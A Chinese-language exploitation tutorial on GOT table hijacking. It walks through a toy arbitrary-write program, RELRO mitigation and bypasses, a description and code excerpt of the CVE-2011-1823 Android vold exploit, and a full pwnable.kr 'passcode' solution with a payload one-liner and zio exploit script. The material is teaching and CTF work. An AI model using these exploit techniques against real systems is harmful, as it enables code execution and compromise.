



# GOT表劫持

前面了解了动态链接和延迟绑定的概念。针对GOT表延迟绑定，有一种常见攻击方式是GOT表劫持。


### GOT表劫持

```
$ readelf -S ropasaurusrex 
There are 28 section headers, starting at offset 0x724:

Section Headers:
 [Nr] Name       Type      Addr   Off  Size  ES Flg Lk Inf Al
 ...
 [23] .got.plt     PROGBITS    08049604 000604 00001c 04 WA 0  0 4         # 这里flag带W，说明可写
 ...
Key to Flags:
 W (write), A (alloc), X (execute), M (merge), S (strings),
 I (info), L (link order), G (group), T (TLS), E (exclude), x (unknown),
 O (extra OS processing required), o (OS specific), p (processor specific)
```

   - 延迟绑定机制要求GOT表必须可写
   - 内存漏洞可导致GOT表项被改写，从而劫持PC







   实例：GOT表劫持

```
#include <stdlib.h>
#include <stdio.h>

void win() {
  puts("You Win!");
}

void main() {
  unsigned int addr, value;
  scanf("%x=%x", &addr, &value);
  *(unsigned int *)addr = value;
  printf("set %x=%x\n", addr, value);
}
```

编译: gcc got_hijacking.c -m32 -o got_hijacking

程序允许修改任意四字节，如何执行win函数呢？main函数在修改内存后调用了printf函数，因此可以考虑修改printf的GOT表项，将其劫持到win()函数。

```
$ objdump -R got_hijacking | grep printf        # 查询printf@GOT表地址
0804a00c R_386_JUMP_SLOT    printf@GLIBC_2.0
$ objdump -d got_hijacking | grep win           # objdump -d反汇编，查询win()函数地址
0804848b <win>:
$ ./got_hijacking
0804a00c=0804848b                               # 劫持printf@GOT表项为win()函数地址
You Win!
```


### 如何防御GOT表劫持

   - 重定位只读 (Relocation Read Only) 缓解措施
     * 编译选项：gcc -z,relro
     * 在进入main()之前，所有的外部函数都会被解析
     * 所有GOT表设置为只读
     * 绕过方法
       + 劫持未开启该保护的动态库中的GOT表(例如libc中的GOT表)
       + 改写函数返回地址或函数指针


## 补充

### GOT表劫持应用场景

当我们通过某些漏洞，拥有了任意地址写的能力，就可以使用GOT表覆写完成利用。例如：

1. 栈上或堆上数组越界导致的任意地址写
2. scanf误用导致的任意地址写：写入操作数没有取地址，例如scanf("%d", passcode2);
3. 格式化字符串漏洞
4. 缓冲区溢出构造ROP调用read@plt覆写GOT


### 定位plt_write和got_write地址

plt_write和got_write都可以通过objdump读取，如下：

```
 $ objdump -d -j .plt level2

 Disassembly of section .plt:

 08048310 <read@plt>:
  8048310: ff 25 00 a0 04 08 jmp *0x804a000
  8048316: 68 00 00 00 00 push $0x0
  804831b: e9 e0 ff ff ff jmp 8048300 <_init+0x30>

 08048320 <__gmon_start__@plt>:
  8048320: ff 25 04 a0 04 08 jmp *0x804a004
  8048326: 68 08 00 00 00 push $0x8
  804832b: e9 d0 ff ff ff jmp 8048300 <_init+0x30>

 08048330 <__libc_start_main@plt>:
  8048330: ff 25 08 a0 04 08 jmp *0x804a008
  8048336: 68 10 00 00 00 push $0x10
  804833b: e9 c0 ff ff ff jmp 8048300 <_init+0x30>

 08048340 <write@plt>:
  8048340: ff 25 0c a0 04 08 jmp *0x804a00c
  8048346: 68 18 00 00 00 push $0x18
  804834b: e9 b0 ff ff ff jmp 8048300 <_init+0x30>
```

```
 $ objdump -R level2
 //got表
 DYNAMIC RELOCATION RECORDS
 OFFSET TYPE VALUE
 08049ff0 R_386_GLOB_DAT __gmon_start__
 0804a000 R_386_JUMP_SLOT read
 0804a004 R_386_JUMP_SLOT __gmon_start__
 0804a008 R_386_JUMP_SLOT __libc_start_main
 0804a00c R_386_JUMP_SLOT write
```

可以看到plt_write值为0x08048340，got_write值为0x804a00c，当然相关实现也已封装到pwntool中，一个调用即可自动获取：

```
 elf = ELF('level2')
 plt_write = elf.symbols['write']
 got_write = elf.got['write']
```


## 实例

#### CVE-2011-1823

说明：传入的数组下标没有检查上限，或者是有符号的，只检查了上限，没有检查是否为负数，直接对下标元素写操作。导致程序访问数组位于堆上之前的元素。
利用：利用该任意地址写漏洞将GOT表中的strcmp等函数项覆盖为libc中的system函数，系统没有开启ALSR的情况下可以使用当前进程libc中system函数的地址,这和目标进程中的system地址是相同的，当目标进程下次调用strcmp时,就会执行system函数.只需在传入的参数字符串中提供一个二进制程序的路径.这样在目标进程对字符串进行比较的时候,就会运行这个二进制程序.
首先要获得全局偏移表(GOT表)到问题数组的偏移。GOT的地址可以通过解析磁盘上的该进程对应二进制的ELF文件头来得到.但数组的地址不能直接获取。利用思路就是要用无效的偏移来让它崩溃,然后读取崩溃的日志信息,获取数组的地址信息，然后就可以计算出GOT地址到数组直接的偏移即所需要的下标。ALSR不开启的情况下,进程无论如何重启,这个偏移都会保持不变(该思路需要进程能够在崩溃时自动重启).
代表漏洞：CVE-2011-1823

示例代码片段：

```
static void *find_symbol(char *sym) {
	void *r = NULL;
	void *dlh = dlopen("/system/libc/libc.so", RTLD_NOW);

	if (!dlh) {
		die("[-] dlopen");
	}
	
	if ((r = (void *) dlsym(dlh, sym)) == NULL) {
		die("[-] dlsym");
	}
	
	dlclose(dlh);
	
	return r;

}

static void find_got(char *file) {
	int fd, i;
	Elf32_Ehdr ehdr;
	Elf32_Phdr phdr;
	Elf32_Dyn *dyn = NULL;
	size_t dyn_size = 0;
	char buf[256];

	memset(&ehdr, 0, sizeof(ehdr));
	memset(&phdr, 0, sizeof(phdr));
	
	if ((fd = open(file, O_RDONLY)) < 0) {
		die("[-] open");
	}
	
	if (read(fd, &ehdr, sizeof(ehdr)) != sizeof(ehdr)) {
		die("[-] read");
	}
	
	if (lseek(fd, ehdr.e_phoff, SEEK_SET) != ehdr.e_phoff) {
		die("[-] lseek");
	}
	
	for (i = 0; i < ehdr.e_phnum; ++i) {
		if (read(fd, &phdr, sizeof(phdr)) != sizeof(phdr)) {
			die("[-] read");
		}
	
		if (phdr.p_type == PT_DYNAMIC) {
			break;
		}
	}
	
	if (phdr.p_type != PT_DYNAMIC) {
		die("[-] No GOT found!");
	}
	
	if (lseek(fd, phdr.p_offset, SEEK_SET) != phdr.p_offset) {
		die("[-] lseek");
	}
	
	dyn_size = phdr.p_filesz;
	
	sprintf(buf, "[+] Found PT_DYNAMIC of size %d (%d entries)\n", dyn_size,
			dyn_size / sizeof(Elf32_Dyn));
	
	LOG(buf);
	
	if ((dyn = malloc(dyn_size)) == NULL) {
		die("[-] malloc");
	}
	
	if (read(fd, dyn, dyn_size) != dyn_size) {
		die("[-] read");
	}
	
	close(fd);
	
	for (i = 0; i < dyn_size / sizeof(Elf32_Dyn); ++i) {
		if (dyn[i].d_tag == DT_PLTGOT) {
			break;
		}
	}
	
	if (dyn[i].d_tag != DT_PLTGOT) {
		die("[-] No GOT found!");
	}
	
	vold.got_start = dyn[i].d_un.d_ptr;
	free(dyn);
	
	/* Not really the end, but who cares, 64 entries should be enough
	 */
	vold.got_end = vold.got_start + scale * 64;
	
	sprintf(buf, "[+] Found GOT: 0x%08x\n", vold.got_start);
	LOG(buf);
}
```


#### scanf误用覆写GOT表

实例来自panable.kr中的passcode

```
#include <stdio.h>
#include <stdlib.h>

void login(){
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);
    fflush(stdin);
     
    // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    printf("enter passcode2 : ");
    scanf("%d", passcode2);
     
    printf("checking...\n");
    if(passcode1==338150 && passcode2==13371337){
    	printf("Login OK!\n");
    	system("/bin/cat flag");
    } else {
    	printf("Login Failed!\n");
    	exit(0);
    }

}

void welcome(){
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}

int main(){
    printf("Toddler's Secure Login System 1.0 beta.\n");

    welcome();
    login();
     
    // something after login...
    printf("Now I can safely trust you that you have credential :)\n");
    return 0;   

}
```

分析程序可知,scanf时,没有用取地址符&
scanf("%d", passcode1);
正确用法应该是：
scanf("%d", &passcode1);
这样的后果是会使用栈上的数据即passcode1的初始值作为指针存放输入的数据,而passcode的初值来自于栈上，事实上是welcome()函数中输入的局部变量name的内容，是可控的。经过调试可以发现name的最后4字节会在login()函数中被用作地址指针。这样就形成了一个任意地址写的漏洞。而写入的内容则就是scanf的输入。
利用思路就是覆盖GOT表，将printf的got表地址覆盖成system("/bin/cat flag")这行代码的地址。即可在调用printf时改变程序执行流程，直接调用system("/bin/cat flag")。所以利用的重点就是找到GOT中printf()的地址即写入地址，以及system("/bin/cat flag")这块代码地址，即写入的内容。


获取GOT中printf()的地址有多种方法，可以使用objdump查看：
```
$ objdump -R passcode
OFFSET	TYPE		VALUE
...
0804a000	R_386_JUMP_SLOY	printf
...
```

即可获得printf()在的地址0804a000这是攻击目标
或者可以使用IDA等反汇编工具跳转到printf调用这里查看地址。

也可以直接在gdb调试过程中在printf调用时跟进查看。
例如printf调用如下：

```
0x080485a0 <+60>:    call   0x8048420 <printf@plt>
```

跟进call   0x8048420去看到

```
=> 0x8048420 <printf@plt>:      jmp    *0x804a000
```

所以0x804a000这里存储着libc里的printf函数地址，我们要改写的也就是0x804a000这个地址。

system("/bin/cat flag")调用的代码段则可以在gdb中调试到此处查看地址，相关代码如下：

```
0x080485e3 <+127>:   movl   $0x80487af,(%esp)
0x080485ea <+134>:   call   0x8048460 <system@plt>
```

所以要改写的内容就是0x080485e3，由于scanf接受的输入是"%d"类型，所以要转换成十进制数输入，即134514147

所以payload为

```
python -c "print 'A'*96 + '\x00\xa0\x04\x08' + '\n' + '134514147'" | ./passcode
```


注意三点：
1. scanf中输入0x00并不会被截断，所以这里\x00是没有问题的，其他如0x09，0x0A，0x0B，0x0C，0x0D，0x20是会截断终止scanf输入的。
2. printf在GOT表的地址，即写入的目标地址如何找到。可以如上通过gdb跟踪调试进入得到，也可以objdump -R passcode得到，也可以IDA反编译得到
3. 写入的数据如何确定，这个比较好确定，目的就是劫持到cat flag.txt逻辑调用上去就可以了。另外由于该题场景这里需要十六进制地址转换成数字输入。

zio实现exp代码如下：

```
#!/usr/bin/env python

from zio import *

io = zio("./passcode")
io.read_until("System 1.0 beta.\n")
payload = 'A'*96 + '\x00\xa0\x04\x08' + '\n' + '134514147'
io.write(payload)

io.interact()
```